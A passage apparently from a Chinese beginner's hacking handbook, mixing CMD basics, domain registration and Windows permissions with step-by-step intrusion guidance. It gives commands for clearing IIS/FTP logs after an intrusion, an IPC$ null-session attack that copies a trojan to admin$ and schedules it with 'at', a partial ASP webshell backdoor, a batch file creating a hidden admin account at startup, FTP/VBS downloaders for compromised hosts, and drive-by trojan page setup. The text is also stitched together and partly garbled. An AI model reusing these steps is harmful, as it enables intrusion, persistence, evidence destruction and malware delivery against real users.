World Wide Publishing Service正在启动...
World Wide Publishing Service已经启动成功。
```


（2）清除 FTP 日志：FTP 日志和 IIS 日志一样，依赖于服务保护，如果没关掉服务进行删除操作，会出现如下提示：

```text
进程无法访问文件，因为另一个程序正在使用此文件。
先停掉FTP相关的服务
net stop "task scheduler"
下面的服务依赖 Task Scheduler 服务。
停止 Task Scheduler也会停止这些服务。
Remote Storage Engine
是否继续操作? (Y/N) [N]: y
```

我们选择继续操作，按 `y` 键，提示如下：

```text
Remote Storage Engine正在停止.
Remote Storage Engine已成功停止。
Task Scheduler 服务正在停止.
Task Scheduler已成功停止。
```

OK，它的服务停掉了，同时也停掉了它有依赖关系的服务。再来试着删一下！命令 `D:\SERVER>del scheduler.txt`，成功删除了。

通过以上的操作，大部分日志就删除掉了，有一点需要大家特别注意，这样清除日志只是“表面”上的删除，就是虽然在系统里不存在这些日志记录了，但在硬盘上物理的痕迹仍然存在，通过专业的硬盘恢复手段，还是能够恢复这些日志。这点请大家特别注意！


通过技术手段来刷 QB 等完全可以实现，也有很多人以此行骗，宣称能帮忙刷 QB 和游戏点卡等来骗取钱财，类似这种骗子代刷广告比比皆是，这一点要提醒大家特别注意，如图3.8所示。

```text
收一批【菜鸟徒弟】教黑客技术代刷6钻和多种点卡！游戏视频贴图...
代刷6钻和多种点卡复制地址 书签 收藏 修改 回复 引用 楼主: ----sas 本人·么 ?
一批【菜鸟徒弟】-QQ:605747160【教学内容】◇◆◇◆◇◆◇◆◇◆◇◆◇◆◇◆◇◆
◇◆◇◆◇◆【菜鸟普通会员】【安全】【抓鸡】【嘿站...
qb ...................14K 2007-12-23 - 百度快照
```


登录成功后，找到用户管理，给路由器的管理员修改一个既不容易被猜出又容易记忆的密码，比如你的名字拼音加几个数字，如图 4-8 所示。


修改完之后不要关闭 IE 浏览器，进入保存菜单，选择储存，这时我们修改的密码才被应用到了路由器上，现在我们的路由器就不怕黑客进来盗取 ADSL 账号了。


再回到我们这节的主题上来，另一类刷 QB 的方法是使用灰鸽子的木马操作肉鸡直接登录上互联星空进行操作。

还有一类是在网吧中使用的刷法，因为有些网吧代充点卡，但是数据库服务器的安全防护很不严密，可以通过一般内网入侵手法，或者网管软件的漏洞入侵成功，之后就可使用网吧的服务器刷 QB 和点卡。

以上就是刷 QB 和点卡的简单过程，针对这些手法一定要做好安全防护。最后提醒朋友们一句，使用盗取的账号进行消费是盗窃行为，面临的法律后果是十分严重的！！！

### 6 什么是 WEBSHELL？它有什么作用？

WEBSHELL 就是一个脚本文件，一个可以用来操作和管理网站程序的工具，通过本书的学习，大家应该能够理解什么是 `ASP` 文件，什么是 `PHP` 文件吧？一个 `ASP` 或 `PHP` 的文件通过执行代码能实现生成网页供我们浏览的目的，同理，也有一些 `ASP`、`PHP` 的脚本程序能实现操作其它文件的功能，它能对网站其它文件和目录实现修改、删除、覆盖、上传、下载，甚至是执行命令等多种功能，如图 50 所示，为海洋顶端 WEB 木马的代码截图。


```asp
<object runat="server" id="ws" scope="page" classid="clsid:72C24DD5-D70A-438B-8A42-98424B88AFB8">
<object runat="server" id="ws" scope="page" classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B">
<object runat="server" id="fso" scope="page" classid="clsid:0D43FE01-F093-11CF-8940-00A0C9054228">
<object runat="server" id="sa" scope="page" classid="clsid:13709620-C279-11CE-A49E-444553540000">

Option Explicit

Dim theAct, sTime, aspPath, pageName, strBackDoor, fsox, sax, wsx

sTime = Timer
theAct = Request("theAct")
pageName = Request("pageName")
aspPath = Replace(Server.MapPath(".") & "\86.tmp", "\\", "\") '系统临时文件
strBackDoor = "<script language=vbscript runat=server>"
strBackDoor = strBackDoor & "if Request("""& clientpassword & """)<>"""" Then session("
strBackDoor = strBackDoor & "if session(""#")<>"""" Then Execute(Session(""#"))"
strBackDoor = strBackDoor & "</script>"
```

图 50

黑客在入侵成功一个网站后，就会把一个能实现这些功能的脚本文件上传到网站空间里用来控制该网站，这个 ASP、PHP 或其它格式的脚本文件就被称为这个网站的 WEBSHELL，它的正常运行依赖于 IIS、APACHE 等网站服务程序。

如果说灰鸽子等程序是对应计算机系统的能够控制对方计算机的木马，那么 WEBSHELL 可以理解为对应的网站程序，能控制网站程序的木马。而不同的是，WEBSHELL 并非一个 EXE 的可执行程序，而是一个脚本程序，可以使用记事本打开 WEBSHELL 木马进行编辑。

WEBSHELL 的连接有一个显著特点，那就是防火墙是无法阻挡它的，因为 WEBSHELL 的连接是通过 80 端口连接的，访问过程与浏览网页一样，假设你在网站上放有一个文件名为 MUMA.ASP 的 WEBSHELL，那么只需在 IE 浏览器地址栏里输入 `http://www.xxx.com/muma.asp` 即可连接上，如图 51 所示。


图 51

网站并不能区分连接的是 WEBSHELL 还是访问的是一个正常页面，这种访问只会在 WEB 日志留下一段记录，没有明显的痕迹，因此网管分析 WEBSHELL 是困难的。不受防火墙的制约，但不等于被杀毒软件查杀，目前特征工具也能查杀。

下面以常见的一种为例，说明 WEBSHELL 的常用功能。连接到 WEBSHELL 的文件后，输入密码主要功能如图 52 所示。

- 系统服务：可以看到服务器上运行的服务
- 服务器相关数据：能看到服务器的信息，如图 53 所示
- 服务器探针：可以看到服务器支持组件

这里暂时不作详细介绍，大家明白对应的支持功能就可以了。

| 组件名称 | 功能描述 |
| :--- | :--- |
| 系统服务 | 可以看到服务器上运行的服务 |
| 服务器相关数据 | 能看到服务器的信息 |
| 服务器探针 | 可以看到服务器支持组件 |
| 系统用户 | 磁盘及用户组信息 |
| 客户端 | 终端交互信息 |
| `WScript.Shell` 运行器 | |
| `Shell.Application` 运行器 | |
| `FSO` 文件浏览器 | |
| `Shell.Application` 文件浏览器 | |
| 数据库查看器 | |
| 文本文件搜索器 | |

图 52

“`WScript.Shell` 程序运行器”和“`Shell.Application` 程序运行器”用来在服务器上执行命令是危害极大的功能，利用这个功能可以调用命令，是系统进行渗透和交互的桥梁。“`FSO` 文件浏览器”这一功能可以帮助我们像本地文件一样操作和浏览文件，非常直观，会操作的人都能使用 WEBSHELL 对网站进行复制、粘贴、删除、重命名等操作，如图 54 所示。

“上传文件”：这个功能使我们方便将本地工具木等上传至服务器。打开上传界面，在左边写入文件的地址和文件名，右边选择要上传的文件，如图 55 所示 我们把本地的 `FSO.txt` 上传至服务器根目录下。为了确认是否成功，可以访问一下看看，如图 56 所示

“数据库查看器”：现在的网站都有数据库，所以功能比较齐全，WEBSHELL 里也会整合对数据库的操作，如图 5-7 所示

“注册表读取等其它功能”：这一类的功能一般的 WEBSHELL 并不附带，只是为了方便操作的一些小功能，如注册表的操作等等，如图 5-8 所示

WEBSHELL 就是能管理操作网站程序的一种脚本工具，成功在网站上得到 WEBSHELL 就等于控制了整个网站，它的功能相当多，在其它章节会陆续介绍，本章就不再叙述了，只要大家明白 WEBSHELL 是什么就够了。

如何开始学习黑客技术呢？

首先要明白，黑客技术是一门学问，不是雕虫小技，不可能通过掌握几个关键点就能学会，需要大量的各种门类的知识累积。因此，作为黑客，第一要具备的素质是耐心，不仅学习时要耐心地去看复杂枯燥甚至根本不知所云的代码，在进行网络安全检测时也要有耐心去寻找网站的漏洞。第二素质必须是行动派，宁可只简单的看过资料后就迫不及待地去尝试，不要只看资料而不去尝试却认为自己已经掌握。

有了以上两点，学历和智商都不是碍学习黑客技术的难关。学习时最好能加入一个正规的网络安全培训组织，这样能得到综合整理的学习资料，还有专门为学员制作的教程，省去我们四处学习无门的烦恼。

不要去胡乱的“拜师”，这有可能不仅会被骗取钱财和精力，而且学不到真正实用的东西，并对很多知识造成误导，使我们白白努力去学习错误和模糊的东西。正规的培训重要的不光是能得到方便的学习资料，还有资深人员在线答疑解惑，得到的答案是准确详尽的，避免道听道和因为自己的错误理解造成的学习误区。在学习中遇到的问题如果不及时解决，会很大程度的阻碍我们的学习进程，影响学习兴趣。

另外，必须起码订购一种黑客类的杂志，用以动态的了解黑客技术的发展，近距离的接触黑客相关知识。不要只停留于网上的资料，以为网上包罗万象已经是过时的东西。书与网上的资料相比有明显优势：

- 可靠性比较高：不像网上的资料只是讨论中或是某种条件下才用的。
- 时效性强：得到的资料都是比较新的，网上很多东西发生了变化。
- 详尽：操作步骤都有具体的描述，甚至还有图片。

你需要在计算机上安装一个 Win2003 操作系统，这是学习必少的平台。黑客需要哪些工具，在后面的章节《黑客工具实战》中有介绍。常用工具下载可以通过相关网站 `www.google.com` 搜索，因为任何网站收录都不可能面面到，总需要在其它地方搜寻，记得 Google 是我们的好伙伴！有什么不懂的，在提问前可以先寻求一下答案，自己理解更深入。在遇到细节的情况，如果不先搜索，如图 59 所示

### 1.1 什么是 `CMD`? 如何启动它?

早年使用过 Windows98、Windows ME 的人应该有一个叫 `command` 的东西，它能在 Windows 系统下模拟一个 DOS 操作界面，执行各种命令。`CMD` 就是 Windows 下的命令行工具，以命令的方式实现计算机操作，同时整合了大量的工具。它通常位于系统安装目录 `Windows\system32`目录下，如图 60 所示

我们通常运行程序是用鼠标双击，事实上 `CMD` 里输入程序名称也能运行。使用它能方便的管理计算机，执行各种图形界面下不方便的操作。`CMD` 的核心就是了解它常用的命令。在 Windows 下使用 `CMD` 方法很简单，单击“开始”－运行”，输入 `CMD` 并确定，会弹出一个黑色的窗体，这就是 `CMD` 的输入框，中间有一个 `_`（下划线）在闪烁。这是命令提示符，在这里输入命令按回车即可执行。光标前面的 `C:\Documents and Settings\Administrator>` 是当前所在的路径，例如这里就是在 C 盘的 Documents and Settings 目录下的 Administrator 子目录中。

关于 `CMD` 的使用先来看一个简单的。如果在 `CMD` 下执行程序，比如我们要执行一个名为 `QQ.EXE` 的程序，它位于 `D:\Tencent\QQ\`目录下，当前的操作符是在 C 盘下，输入 `D:` 回车，如图 61 所示，跳转到了 D 

`CMD` 下执行程序有一个规则，就是先切换目录，再运行该目录下的程序名。这个步骤和我们在 Windows 图文界面下运行程序的过程，先进入程序所在的目录，再双击图标（桌面上的快捷方式只是目录中那个程序的镜像）。在 `CMD` 下的命令行下输入 `cd Tencent\QQ` 进入 `QQ` 程序所在目录，如图 62 所示

此时 `CMD` 提示符会变成 `D:\Tencent\QQ>`，后面有一个光标闪烁，已经进入 `D:\Tencent\QQ`。现在大家都知道了，要从 `CMD` 下进入目录的命令就是“`cd 目录名`”的形式。光标停在 `D:\Tencent\QQ\`后，输入 `QQ` 或 `QQ.exe`，`QQ.EXE` 即被执行。

下面来讲讲 `Dir` 命令，输入 `dir` 可以查看当前目录的文件和子目录列表，输入 `dir c:\` 可以查看 C 盘的文件和子目录列表，如图 63 所示。注意语法，在要查看的硬盘或目录后面要加上 `\` ，如果没有加上 `\` 将不是 C 盘下的文件列表。如图 64、图 65 所示，分别为输入 `dir c:\` 和 `dir c:` 的区别。

## 第二章 常见问题答疑解惑

exe，可以输入命令 `Copy d:\nc.exe d:\nc1.exe`。


复制成功后用 `dir` 命令查看，的确在 C 盘根目录下生成了文件 `nc1.exe`，如图 69 所示。


`CMD` 下还有很多方便的命令可以使用，比如想知道你与某网站的连接速度，可以使用 `PING` 命令，形式为 `ping www.sohu.com`，同时也得到了目标网站的 IP 地址，如图 70 所示。通过这个命令也可以知道自己与内网其它主机或网络设备的连接是否正常。


查看网络环境的命令形式为 `ipconfig -all`，如图 71 所示。


在这里特别介绍一下返回结果中几个主要参数的中文含意：

| 参数 | 含义 |
| --- | --- |
| `Host name` | 主机名 |
| `Physical Address` | 网卡的物理地址 |
| `Ip Address` | 主机的 IP 地址 |
| `Default Gateway` | 默认网关地址 |
| `DNS Servers` | DNS 服务器地址 |

以上命令只是 `CMD` 使用的冰山一角，可以说几乎所有的 WINDOWS 操作都能在 `CMD` 命令下完成，甚至包括建立服务这样复杂的命令，在以后的章节中我们会进行介绍。

### 9 无法打开DDoS攻击

DDoS 是英文 Distributed Denial of Service 的缩写，中文意思是“分布式拒绝服务”。它使用与普通的拒绝服务攻击同样的方法，但是发起攻击的源是多个，所以称为分布式。

DDoS 的直接结果就是导致网站无法打开，如图 72 所示。


DoS 的攻击方式有很多种，最基本的 DoS 攻击就是利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务。网站被攻击后则无法访问，给网站带来巨大的经济损失。在被 DDoS 的主机中执行 `netstat -an` 命令，能看到大量的连接请求，如图 73 所示，在如此重压之下，很难有服务器能逃过被击溃的命运。

```
TCP  202.96.155.62:80  222.93.216.122:58860  ESTABLISHED
TCP  202.96.155.62:80  222.93.235.190:48743  CLOSE_WAIT
...
```

早期的 DDoS 使用的原理是：

首先攻击者向服务器发送众多的带有虚假地址的请求，服务器发送回复信息后等待回传信息。由于地址是伪造的，所以服务器一直等不到回传的消息，分配给这次请求的资源就始终没有被释放。当服务器等待一定的时间后，连接会因超时而被切断，攻击者会再度传送新的一批请求。在这种反复发送伪地址请求的情况下，服务器资源最终会被耗尽。

近年来随着 DDoS 攻击技术的发展和完善，也出现了模拟海量真实的访问来消耗资源达到 DDoS 攻击目标的方法，并产生了较为成熟的工具，如 CC。

DDoS 攻击分为3 层结构：攻击者、主控端、代理端。

（1）攻击者：就是发动 DDoS 攻击的策划人，整个 DDoS “军团”被控制计算机的“总司令”，可以控制和下达攻击指令，是整个体系的核心；

（2）主控端：是被攻击者控制的主机，同时控制大量的代理主机。在收到攻击者发来的指令后转发到代理主机上，作用相当于各级“军官”。

（3）代理端：就是黑客通过种种漏洞或网页木马获得的大量“肉鸡”，然后在上面安装 DDoS 工具软件，一旦接到攻击指令立刻开始行动，作用相当于“士兵”。

DDoS 整个体系结构如图 74 所示：


DDoS 的整个运作过程并不复杂，当黑客决定发起一次 DDoS 攻击后，首先通过网络漏洞或挂网页面木马得到大批的“肉鸡”。肉鸡的多少至关重要，直接关系到攻击的强度和成败。当获得肉鸡后，便在上面安装好 DDoS 攻击程序，等待攻击者发出的命令，其中一部分性能突出的主机可被当作主控端，协调整个攻击过程。DDoS 攻击虽不像其它以夺取控制权为目标的攻击，但是其对网站的影响大，甚至大于其它。如果网站长期不稳定，无法正常服务，流失用户及广告。DDoS 的经典案例是腾讯集体勒索。

### 10 如何理解域名

如果要用一句话来括，域名是 Internet 上的服务器或一个系统的名字，就像我们在网上用的网名一样。通过这个名字，我们很容易记住该服务器，让网上的朋友很快识别出。域名最重要的作用，是把四段的 IP 地址转换为容易记忆的字符。比如记住 `123.0.0.1`，大多数人无法记住，但如果记住 `sohu.com`，应该大多数人都能记住。我们在 `CMD` 下输入 `ping www.sohu.com`，如图 75 所示。

```
C:\> Pinging www.sohu.com [123.0.0.1] with 32 bytes of data:
Reply from 123.0.0.1: bytes=32 time=50ms TTL=55
...
```

图 75

### 11 资深黑客渗透内幕


显然，一串有含义的字符组成的域名，比一堆毫无规律的 IP 地址要容易得多。一些成熟的大企业和机构更是其品牌的一部分。按照域名的结构来划分，总体上把域名分成两类：一类称为“国际顶级域名”（简称“国际域名”），一类称为“国内域名”。

一般国际域名的后缀是一些如 `.com`、`net`、`gov` 或 `edu` 的“国际通用域”，这些不同的后缀代表了不同的机构性质。比如 `.com` 表示的是商业机构，`net` 表示的是网络机构，`gov` 表示的是政府机构，`edu` 表示的是教育机构。国内域名的后缀通常要包括“国际通用域”和“国家域”两部分，而且以“国家域”作为最后一个后缀。以 ISO 3166 为规范，各个国家自己固定的国家域，如：`cn` 代表中国、`us` 代表美国、`uk` 代表英国等。

除了这种分法之外，在一个“大”域名下，还有若干“小”域名来区分不同的服务区域或对应主机，这种“小”域名被称为二级域名，它的书写格式是在域名前面加上符号。比如 `www.com` 表示 WEB 访问二级域，`ftp.cn` 表示 ftp 二级域，`down.com` 表示下载二级域。在空间商处申请空间后，一般会分配给你一个默认域名，通常是以你的用户名作为首段，比如 `username.com`，这也属于二级域名。

从这个意义上来说，域名就是用字符来命名服务器上的一部分资源，使之成为容易被人们记住的方式从 Internet 上访问到。在网站上我们也可以申请自己的域名，以国内最大的 WEB 空间商万网为例，进入它的域名申请页面 `http://www.cn/static/domain/`，输入你想注册的域名看看是否已经被注册。在输入域名后，选择页面提供的查询的后缀，如图 76 所示。


选择后点击“查询”按钮，稍等一会就出现了查询结果，如图 77 所示。


很遗憾，`net`、`com`、`org` 后缀的域名都已经被注册了，只有 `mob` 域名尚空缺。如果需要注册，就单击旁边的相关按钮进入注册页面，如图 78 所示。

首先选择要注册的年份，如果这个域名确实很好，想长期拥有，当然年份就选长点，免得到期被别人抢了。还要注意看看这个域名的价格你是否满意，如果一切 OK，就提交购买请求，如图 79 所示。

后面的步骤就一般的注册一样，注意资料要准确，特别是域名管理密码要记牢。填写资料最后付款，我们就得到了想要注册的域名，同时还有一个管理域名的地址，登录后可以进行域名管理，如图 80 所示。

现在登录我们的 WEB 空间设置中进入域名绑定选项，将注册的域名与网站进行绑定，如图 81 所示。


完成后再输入域名，就能访问到网站了，再也不需要使用长长的二级域名来连接。


## 12 什么是 IPC 连接？

IPC (Internet Process Connection) 是共享“命名管道”的资源，它是为了进程间通信而开放的命名管道，本来是为了方便计算机之间共享，但是它在设计之初存在重大漏洞，给了普通用户太大权限，以至于能使用默认的管理员账号和密码成功建立连接，并且复制和执行程序。这造成了巨大的安全漏洞。现在网络上几乎都是 IPC 连接的，虽然是十年前的技术，但是还有不少没有打补丁的主机被此漏洞入侵，所以我们需要特别关注。入侵者可以与目标主机建立一个空的连接而无需用户名和密码（当然对方必须开了 `IPC$` 共享），然后拷贝木马并最终执行它。连接者还可以得到目标主机上的用户列表。黑客经常使用 IPC 连接上目标计算机，利用 IPC 具有计划执行功能（如拷贝文件）拿到计算机控制权。

如果对方计算机没有打补丁，黑客使用以下几条语句就能完成入侵：建立空连接，输入命令 `net use \\IP\ipc$ /user:"administrator"`（一定要注意：这一行中包含了三个空格），如图 2 所示。


如果前面那条语句执行成功，说明建立了 IPC 连接，我们可以将远程硬盘映射到本地，命令为 `net use z: \\IP\c$`。这样就把远程主机上的 C 盘映射到了本地作为 Z 盘，我们在本地执行 `dir z:` 命令，实际上看到的是对方的 C 盘。显然不能满足我们，我们要拿到主机的权限。下一步就是向远程主机拷贝文件，输入命令 `copy mask.exe \\IP\admin$`，如图 3 所示。


如果不行，可以换为 `C$`、`D$`、`E$`，最后尝试拷贝到 `z:`。这个拷贝过去的 EXE 程序是个木马，接下来我们要用计算机自带的计划任务定时运行这个木马。如果成功，对方的主机就被我们控制了。先要查看远程计算机的系统时间，输入命令 `net time \\IP`，如图 4 所示。


把程序加入计划列表，定时执行程序，这个时间比刚才看到的时间要晚 2、3 分钟，输入命令 `at \\IP 1:05 mask.exe`。要查看是否添加成功，输入命令 `at \\IP`，如图 5 所示。


等系统时间到达设置中指定的时间时，拷贝到肉鸡上的木马会执行，黑客即可获得远程计算机的控制权限。

使用 IPC 空连接入侵是有局限性的，如果系统打过补丁，便无法成功，适用于早期未打补丁的 Windows 操作系统（Windows 2000、Windows 2003、Windows XP）。在打过补丁的系统中，虽然能成功建立 IPC 连接，但是无权拷贝文件或者执行程序，这些都是正常现象。如果对方开着防火墙则根本无法连接。

先纠正一个误区，很多人以为入侵网站之后放置了 Webshell，但是没有改网站首页和放置网页木马，就没有违法。这个观点是错误的，数字化信息的真实性、完整性、有效性，只要破坏了一点，就构成违法。放置 Webshell 不违法这一误区的形成是因为通常放置 Webshell 的管理员不会引起引起重视，发现网站被人侵入也只是清除 Webshell 后修补漏洞了事，并没有意识，也没有精力去诉诸法律，追究责任人。但是随着法律意识的提高，调查程序的简化，难保哪天遇到爱较真的管理员，而你的行为，的确是违了法。

有很多朋友初学黑客技术小获成功之后，喜欢将黑掉的网站首页进行修改，“提醒”管理员，还用醒目的字体和颜色写上自己的 QQ、Email 等联系方式，这太虚荣了，并且极其危险。在这个阶段能黑掉网站这种极其简单的网站，反而没有必要，反而使自己在骄傲之下重复同样简单的事，而忽略了真正知识的学习。这种炫耀好像是在对人说：“看，我知道”，以后回头来看，这种行为很幼稚。真正的高手都是藏在幕后的。更有甚者居然写上支付费用来索，这已经严重犯了刑法——敲诈罪！有人入侵网站后，居然敲索并留下 QQ，到时就会付出沉重的代价。最后希望大家明白，在网络上你并非可以为欲为，一样有法律严肃的约束着你的行为，一切要重！

## 13 什么是脚本

我们听说最多的可能是话剧脚本，脚本是个引进词，在日语中脚本有“手稿”、“剧本”的意思，这包含了脚本的两大特征：

- （1）既然是手稿，那么就容易随便修改抹，所以在计算机上适合解释执行，因为编译执行可能要花太长的时间。于是解释执行的程序就成了 script。

- （2）既然是剧本，就要描述很多情节，这些情节交给演员去演。在计算机上，那些功能单一的可执行程序就成了演员，script 成为协调这些程序执行的导演。于是捆绑功能性程序达到更强的功能的文件就成了 script，这就有点批处理的味道，但比批处理更强。

常见的脚本包括 VBS 和 JS 两种，站在一个菜鸟的角度看，脚本和程序的区别是：程序的代码我们是不能直观地看见的，而脚本的代码只需要在脚本文件上按鼠标右键，在弹出的打开方式中选择“记事本”就能看到脚本的源代码，如图 8-8、图 8-9 所示。


## 第二章 常见问题答疑解惑

### 脚本的常见应用

有很大的作用，比如用批处理执行添加账号和加入管理员组这二个命令：

```
Net user hacker 12345678 /add
Net localgroup administrators hacker /add
```

将以上代码存为一个名为 `ADDUSER.BAT` 的批处理文件，放入目录 `C:/Documents and Settings/ADMINISTRATOR/「开始」菜单/程序/启动` 中，如图 90 所示。这样，服务器重启时就能完成建账号并添加到管理员的命令。

从肉鸡上下载工具，在没有图形界面和命令行操作的情况下是很不方便的。例如通过 SA 权限的注入点执行命令时，想要远程下载一个工具，如果用 FTP 命令，如何得到窗口并一步步输入用户名和密码是个难题，这时就得采用脚本写个批处理来进行 FTP 下载，相关代码如下：

```
echo ftp>111.txt
echo open 你的FTP服务器IP地址>>111.txt
echo 用户名>>111.txt
echo 密码>>111.txt
echo get 要下载的文件名>>111.txt
echo bye>>111.txt
ftp -s:111.txt
del 111.txt
del tree.txt
del test.bat
```

写入后存为 `DOWN.BAT`，运行后就可以进行 FTP 下载了。在通常的使用中，用 VBS 下载比批处理更方便，代码如下：

xPost.Open "GET",http://images.sohu.com/uiue/sohu_logo/beijing2008/sohu.gif,0

```vbs
Set xPost=CreateObject("Microsoft.XMLHTTP")
xpost.Send()
set sget=createobject("ADODB.Stream")
sget.mode=3
sget.type=1
sget.open()
sget.write(xpost.responsebody)
sget.savetofile "test.gif",2
```

`http://images.sohu.com/uiue/sohu_logo/beijing2008/sohu.gif` 是你欲下载的文件地址，`test.gif` 是下载后保存的文件名。把这段代码存为 `down.vbs`，在 `cmd` 中运行 `Wscript down1.vbs`，注意需要输入 `down1.vbs` 的绝对路径，如图 91 所示。

这样即可实现下载，其中 `wscript` 为脚本宿主工具。以上就是脚本的常见应用，脚本的功能十分强大，其实现在建立网站的 `asp`、`aspx`、`php` 等也可以认为是一种脚本，上面所书只是管中窥豹。

### 权限

权限：个人以为不需要用太多复杂专业的词语对于初学者作解释，完全可以简单的用一句话来说明什么是权限。那就是：你是什么身份和你能做什么。

权限的影响渗透到入侵中的方方面面，但很少有初学者意识到还有权限这个东西存在。常见到诸如此类的提问：“我连接了IPC，可是为什么提示没有权限不能上传文件？”、“我得到了一个WEBSHELL，为什么执行了灰鸽子没反应？”、“我在WEBSHELL的命令行下执行建管理员命令为什么不成功？”，这些都是没有权限概念的体现。

在 Windows 系统中，从事每一项工作的任务都被分配一个角色去完成，这个角色被赋予这项任务的同时也分配到了相应的权限，这就比如在公司里，财务经理是管财务的，这是分配给他的任务（对应前文中的“你是什么身份”这一问题），相应的也就分配给了他查询账目、保存账簿、核算成本、制定财务计划等相应的权限（对应前文中“你能做什么”这一问题）。

把例子放到计算机来说，IIS 中的 WEB 访问者全部被分配给了一个叫 `IUSER_机器名` 的账户，即所有浏览该网站的用户全是这账号，如图 9-2 所示。


具有对 WEB 目录的读写修改权限，但是没有执行程序的权限，这个权限要管理员才会有，这是先天就设定好的，就如前面的例子，财务经理当然就只负责管财务，而不能去管销售方面。这个原理可以概括为“角色不同，权限不同”。

那么现在我们再回过头来，看看之前初学者常提出的那几个问题：

- “为什么我连接了IPC，提示没有权限上传文件？”：因为对方是打补丁的系统，远程登录的管理员账号也是当作 `GUEST` 成员，`GUEST` 成员是没有写权限的。

- “我得到了一个WEBSHELL，为什么执行了灰鸽子后没有反应？”：因为 IIS 的访问账号是 `IWAN_机器名`，此账号也是属于 `GUEST` 组，是没有执行程序权限的。在 WEBSHELL 下运行灰鸽子因为没有权限也就无法运行，没反应是正常的。

- “我在WEBSHELL的命令行下执行建管理员命令为什么不成功？”：因为只有管理员才有权限添加账号并加入管理员组，IIS 访问账号的 `GUEST` 权限是做不到这一点的。

从上面几个小例子相信大家应该认识到权限在入侵中的影响范围之广和影响力。了解权限的概念，很多困扰的问题就自然有了答案。权限直接关系到入侵成败，上面阐述的是“你是什么身份”，下面来讲讲“你能做什么”。举个比方，一个公司具备的权限有：读、写、修改、列目录、执行等相对的，这些权限被分配给相应的对象。在 Windows 下，可以用命令 `net group` 查看有哪些用户（即有哪些角色），如图 3 所示。

在 NTFS 分区的硬盘中，点击右键选“属性” — “安全”就能知道各角色在目录中拥有的权限，所示。Windows 目录的权限一般分为以下几种：

- （1）完全控制：“完全控制”就是对目录拥有不受限制的访问，就像 `Administrators` 所有组中的地位一样。选中了“完全控制”，下面的五项将被自动选中。

- （2）修改：“修改”就像 `Power users`，选中了“修改”，下面的四项将被自动选中。

- （3）读取和运行：“读取和运行”就是允许读取和运行在目录下的任何文件。

- （4）列出目录：“列出目录”是指只能浏览该卷或目录下的子目录，不能读取，也不能运行，必要条件。

- （5）读取：“读取”是能够读取该卷或目录下的数据。

- （6）写入：“写入”就是能往该卷或目录下写入。

- （7）特别：“特别”则是对以上的六种权限进行了细分。

Windows 下的权限还具备四个特性——继承性、累加性、优先性、交叉性，下面介绍一下这些特性的含义：

① 继承性：是说下级的目录在没有重新设置之前，是拥有上一级目录权限的。这里还有一种情况说明，在分区内复制目录或文件时，复制过去的目录和文件将拥有它所处位置的级目录权限。但在分区内移动目录或文件时，移动过去的目录和文件将拥有它原先的权限。

② 累加性：是说如一个组 `GROUP1` 中有两个用户 `USER1`、`USER2`，他们同时对某文件或目录的访问分别为“读取”和“写入”，那么组 `GROUP1` 对该文件或目录的访问权限就为 `USER1` 和 `USER2` 的访问权限和，实际上是取其最大的，即“读取”+“写入”=写入。又如一个用户 `USER1` 同属于 `GROUP1` 和 `GROUP2`，而 `GROUP1` 对某一文件或目录的访问权限为“只读”型的，而 `GROUP2` 对这一文件或文件夹权限为“完全控制”型的，则用户 `USER1` 对该文件或文件夹访问权限为组权限累加所得，即：“只读”+“完全控制”=完全控制。

③ 优先性：权限的这一特性又包含两种子特性，其一是访问权限优先目录的权限，也就是说文件权限可以越过目录的权限，不管上一级文件夹的设置。另一特性就是“拒绝”权限优先其它权限，也就是说“拒绝”权限可以越过所有权限，一旦选择了“拒绝”权限，则其它权限不能起任何作用，相当于没有设置。

④ 交叉性：指当同一文件夹为某一用户设置了共享权限的同时，又为用户设置了该文件夹的访问权限，且所设权限不一致时，它的取舍原则是取两个权限的交集，也就是最严格、最小的那种权限。

如目录 `A` 为用户 `USER1` 设置的共享权限为“只读”，同时目录 `A` 为用户 `USER1` 设置的访问权限为“完全控制”，那用户 `USER1` 的最终访问权限为“只读”。权限的设置必须在 NTFS 分区中才能实现，FAT32 不支持权限设置的。

权限的概念中还包括三种文件和文件夹属性，如图 9-5 所示。


图 9-5

- 只读：顾名思义，只能读，不能修改
- 系统：被隐藏保护，通常不会显示
- 隐藏：隐藏不显示

权限系统是 Windows 下非常重要的一个系统，概念繁多，很多初学者都有难于理解和观念模糊不清之感，对于权限的学习和掌握，只有靠实践中的经验积累，建议遇到问题时好好回头复习一下本节文章中所的内容。

### 为什么有的网站程序文件是 PHP 后缀，有的是 ASP 后缀，有的又是 ASPX 后缀，它们有什么不同？

常上网的朋友会发现，网站程序文件的后缀并不是千篇一律的，常见的有这几种后缀：`html`、`asp`、`aspx`、`php`，如图 96、图 97、图 98 所示。


图 96


图 97


相信大家都明白，最初的网页`ASP`、`ASPX`和`PHP`这三种后缀虽然类型不同，都属于脚本。`JPG`和`GIF`都属于图片。`CGI`后缀是`CGI`脚本写成的，`PHP`后缀是`PHP`脚本写成的，`ASP`后缀是`ASP`脚本写成的，`ASPX`就是`ASPX`脚本写成的。


## 第二章 常见问题答疑解惑

### 16 网页挂马

挂马就是在网站的首面或相应页面放置地址，使得用户在访问此网站或相应页面时被加载木马。当被访问时，这个页面上包含的木马会被下载到浏览器的计算机上并且被执行，这就是该网站被挂马了。挂上木马是因为该网站存在漏洞，被黑客拿到了`WEBSHELL`或跨站，通过数据库挂马等方式达成的。

所谓的挂马并不是把我们常说的灰鸽子木马直接挂到网页上，那样无法无法下载并运行的目的。“挂马”挂的是一种程序，它能将远程地址下载到本地并且执行，能实现这种功能的被称为“网络木马”。

用户访问被挂马网站流程如下：

用户访问网站 -> 挂在网站上的网络木马随网页加载到访问者的计算机中 -> 网络木马从远程下载木马（比如灰鸽子）并执行 -> 访问者计算机中木成为肉鸡。

首先需要找到一款好用的网络木马，这个可不太好找，因为能有效传播的漏洞转瞬即逝。我们某款网马为例，先把配置好的灰鸽子上传到我们的空间上，假设地址为`http://www.xxx.com/gezi.exe`，就把这个地址填入网马生成工具的“exe文件地址”处，如图 102 所示。


图 102

再点击生成网马，在生成器的目录下会出现一个`htm`文件，我们将其命名为`down.htm`吧，如图 103 所示。

把这个`down.html`文件也上传到我们的空间里，假设地址为`http://www.xxx.com/down.html`。

